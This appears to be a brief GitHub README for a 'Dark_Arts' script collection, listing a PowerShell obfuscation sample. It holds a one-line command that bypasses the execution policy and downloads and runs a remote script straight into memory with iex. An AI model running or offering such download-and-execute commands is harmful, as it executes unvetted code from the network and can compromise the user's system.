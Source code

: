 # Dark_Arts
My Favorite Scripts

Contents:

QuoteUnquote.ps1 --> Sample powershell for invoke Obsfuscation

exceution:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/Dark_Arts/main/QuoteUnquote%20Animated.ps1'))
